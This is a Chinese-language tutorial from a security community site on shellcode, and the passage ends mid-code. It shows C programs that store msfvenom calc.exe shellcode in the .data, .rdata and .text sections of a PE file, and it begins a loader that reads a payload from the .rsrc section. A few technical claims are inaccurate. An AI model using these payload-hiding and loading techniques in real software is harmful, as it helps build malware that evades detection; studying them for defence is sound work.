










# Shellcode生成、加载与加密技术全解析：从原理到实践-先知社区

> **来源**: https://xz.aliyun.com/news/18829  
> **文章ID**: 18829

---

Shellcode是一种恶意代码，它试图劫持计算机内存中正在运行的程序的正常流程。然后它会重定向流程，以便执行恶意代码，而不是正常程序，从而为攻击者提供 shell 或实际访问权限。这些通常是低级编程代码形式的信标或有效载荷或结合漏洞利用的机器代码。漏洞利用是成功利用漏洞的低级或本机代码片段。接下来我们一起来看一看，思维导图如下所示：



### shellcode的生成

众所周知Shellcode这种攻击手段的经常使用的，我可以简单分析Shellcode的执行过程（一共有四步）。它首先打开一个目标进程===>然后在该进程中分配一部分内存===>以将 shellcode有效负载写入分配的部分===>在从远程进程中创建一个新线程来执行Shellcode。因此，攻击者需要选择适当的利用后可执行文件类型在目标系统上执行，例如Win系统的.EXE或.DLL或者Linux的.ELF和Android 的.APK并首选内存开发技术以提高操作安全性。

与此同时，有一些重要的考虑因素和特征可以确保成功执行 Shellcode 并保持高操作安全性。所以shellcode代码存在如下特征：

1.拥有执行所需shell的所有指令，同事仍然相对较小。

2.在内存中“位置独立” --这一点至关重要，因为通常不可能事先知道它将加载到目标易受攻击进程的内存中的什么位置。

3.不包含任何可能导致潜在错误或者导致整个过程崩溃的内容；例如，由于空字符（0x00）

4.能够使用一些注入技术（代码或反射注入）搭载一些现有的内存分配。

### shellcode的存放位置

#### .data 节

PE文件的 .data 节是PE文件的可执行部分包含已初始化全局变量和静态变量的部分。此节可读写，适合需要在运行时解密和加密的shellcode。shellcode如果是全局或局部变量，将存储在 .data 节中，具体取决于编译器设置。

以下代码片段展示了将有效负载存储在 .data 节中的示例

```
#include <Windows.h>
#include <stdio.h>

//  payload 保存到了 .data 节重
unsigned char Data_RawData[] = {
	0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
	0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
	0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
	0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
	0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
	0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
	0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
	0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
	0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
	0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
	0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
	0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
	0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
	0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
	0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
	0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
	0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
	0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
	0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
	0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
	0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00
};

int main() {

	printf("[i] Data_RawData 变量 : 0x%p 
", Data_RawData);
	printf("[#] 按 <Enter> 退出 ...");
	getchar();
	return 0;
}
```

#### .rdata 节(段)

使用 const 限定符指定的变量被写为常量。这类变量被认为是“只读”数据。 .rdata 中的字母“r“表示此含义，任何尝试更改这些变量的行为都会导致访问冲突如。此外，根据编译器及其设置，.data 和 .rdata 节(段)可能会被合并，甚至被合并到 .text 节中。

下面的代码片段展示了一个存储在 .rdata 节(段) 中的shellcode示例。代码本质上与之前的代码片段相同，除了现在该变量之前增建了 const 限定符。

```
#include <Windows.h>
#include <stdio.h>


// .rdata 保存payload
const unsigned char Rdata_RawData[] = {
	0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
	0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
	0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
	0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
	0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
	0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
	0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
	0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
	0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
	0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
	0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
	0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
	0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
	0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
	0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
	0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
	0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
	0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
	0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
	0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
	0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00
};

int main() {

	printf("[i] Rdata_RawData 变量 : 0x%p 
", Rdata_RawData);
	printf("[#] 按 <Enter> 退出 ...");
	getchar();
	return 0;
}
```

#### .text 节

将变量保存到 .text节与保存在 .data 或 .rdata 节中不同，因为它不仅仅是要声明某个随机变量。相反，还需要按照以下代码片段中的方式指导编译器将它保存在 .text 节中。

```
#include <Windows.h>
#include <stdio.h>

// msfvenom calc shellcode
// msfvenom -p windows/x64/exec CMD=calc.exe -f c 
// .text 存储的有效负载
#pragma section(".text")
__declspec(allocate(".text")) const unsigned char Text_RawData[] = {
	0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
	0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
	0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
	0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
	0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
	0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
	0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
	0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
	0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
	0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
	0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
	0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
	0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
	0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
	0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
	0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
	0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
	0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
	0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
	0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
	0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00
};

int main() {

	printf("[i] Text_RawData 变量 : 0x%p 
", Text_RawData);
	printf("[#] 按 <Enter> 退出 ...");
	getchar();
	return 0;
}
```

这里告诉编译器将 Text\_rawData 变量放在 .text 节中，而不是 .rdata 节中。 .text 节是特殊的，因为它存储具有可执行内存权限的变量，允许它们直接执行，而无需编辑内存区域权限。这对于大约小于 10个字节的小型shellcode很有用。

#### .rsrc 节

将shellcode保存在 .rsrc 段时一种更简洁的方法，因为较大的shellcode无法保存在 .data 或 .rdata 段中，因为存在大小限制，从而导致编译器件 Visual Studio报错。

以下步骤说明了如何在 .rsrc 节中存储shellcode：

1. 在 Visual Studio 中，右键单击"资源文件"，然后单击添加 -> 新建项



1. 单击"资源文件"。



1. 这将生成一个新的侧边栏，即资源视图。右键单击.rc 文件(Resource.rc 是默认名称)，然后选择"添加资源" 选项。
2. 单击"导入"。
3. 选择 calc.ico 文件，该文件是重命名为 .ico 扩展名的原始shellcode。
4. 将出现一个提示，要求输入资源类型。输入 "RCDATA"，不带引号。
5. 单击"确定"后，shellcode应以原始二进制格式显示在Visual Studio 项目中
6. 退出"资源视图"时，应显示"resource.h"头文件，并根据步骤2中的 .rc 文件进行命名。此文件包含一个定义语句，引用资源部分 (IDR\_RCDATA1)中shellcode的ID 。这很重要以便能够以后从资源部分中检索shellcode。

编译后，shellcode将存储在 .rsrc 节中，但无法直接访问，相反，必须使用多个WinAPI来访问它。

* FindResourceW - 获取存储在资源部分的指定数据的位置(由头文件中定义)
* LoadResource - 检索资源数据中的 HGLOBAL 句柄。此句柄可用于获取内存中指定资源的基础地址。
* LockResource - 从其句柄中获取资源部分中指定数据的指针。
* SizeofResource - 获取资源部分中指定数据的大小。

以下代码段将利用上述Windows API来访问 .rsrc 部分并获取shellcode的地址和大小。

```
#include <Windows.h>
#include <stdio.h>
#include "resource.h"

int main() {
    
    HRSRC       hRsrc                   = NULL;
    HGLOBAL     hGlobal                 = NULL;
    PVOID       pPayloadAddress         = NULL;
    SIZE_T      sPayloadSize            = NULL;
    
    // 根据其 ID *IDR_RCDATA1* 获取存储在 .rsrc 中的数据的位置
    hRsrc = FindResourceW(NULL, MAKEINTRESOURCEW(IDR_RCDATA1), RT_RCDATA);
    if (hRsrc == NULL) {
        // 函数发生错误
        printf("[!] FindResourceW 失败，错误信息：%d 
", GetLastError());
        return -1;
    }

    // 后续调用 LockResource，因此需要获取 HGLOBAL 或指定资源数据的句柄
    hGlobal = LoadResource(NULL, hRsrc);
    if (hGlobal == NULL) {
        // 函数发生错误
        printf("[!] LoadResource 失败，错误信息：%d 
", GetLastError());
        return -1;
    }

